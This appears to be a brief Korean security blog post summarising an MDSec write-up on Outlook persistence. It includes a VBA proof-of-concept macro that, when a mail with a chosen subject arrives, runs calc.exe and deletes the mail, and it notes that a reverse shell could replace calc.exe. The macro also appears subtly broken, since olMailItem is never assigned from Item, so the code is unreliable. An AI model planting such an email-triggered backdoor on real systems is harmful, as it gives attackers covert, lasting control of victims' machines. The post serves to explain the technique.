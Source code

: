 ```yaml
---

title: "[하루한줄] Outlook Mail based Persistence access"

author: Fabu1ous

tags: [Fabu1ous, outlook, email, persistence access, windows]

categories: [1day1line]

date: 2020-11-25 18:00:00

cc: true

index_img: /img/1day1line.png
---
```




## URL

[A Fresh Outlook on Mail Based Persistence](https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/)



## Target

Windows 10 Outlook



## Explain

Outlook은 Microsoft Office의 이메일 클라이언트로 일정 관리, 연락처 관리, 일지 등의 다양한 기능을 제공합니다. 그중 다른 Office 제품들과 마찬가지로 Outlook은 VBA(Visaul Basic for Application) 기반 매크로를 만들어 사용하는 기능이 있고, 해커는 이를 악용해 persistence access를 얻을 수 있습니다.



Persistence access란 해커가 victim에 initial access를 획득한 이후에도 지속적으로 access 할 수 있는 상태입니다. 특정 제목의 이메일이 도착하면 트리거 되는 악성 매크로를 victim에 심어놓으면 해커는 단순히 이메일을 보내는 것 만으로 victim을 원격 제어할 수 있습니다.



```visual basic
Option Explicit

Private WithEvents olInboxItems As Items

Private Sub Application_Startup()
    Set olInboxItems = Session.GetDefaultFolder(olFolderInbox).Items
End Sub

Private Sub olInboxItems_ItemAdd(ByVal Item As Object)
    On Error Resume Next
    Dim olMailItem As MailItem
    If TypeOf Item Is MailItem Then
       If InStr(olMailItem.Subject, "MDSec") > 0 Then
            MsgBox "Hack The Planet"
            Shell "calc.exe"
            olMailItem.Delete
        End If
    End If
    Set Item = Nothing
    Set olMailItem = Nothing
End Sub
```

위 POC 코드는 calc.exe를 실행하는 VBA 매크로입니다. 우선 Outlook이 실행됐을 때의 수신 메일함의 상태를 저장합니다. 이후에 새로운 이메일이 추가되면 그 이메일의 제목을 확인하고, 만약 그 제목이 "MDSec"이라면 calc.exe를 실행한 후 해당 이메일을 삭제합니다.



이메일의 제목뿐만 아니라 발신 주소 혹은 내용 등으로 매크로의 트리거 조건을 다양하게 설정할 수 있고, calc.exe 대신 리버스 쉘을 실행하면 해커가 원격제어를 할 수 있게 됩니다. 
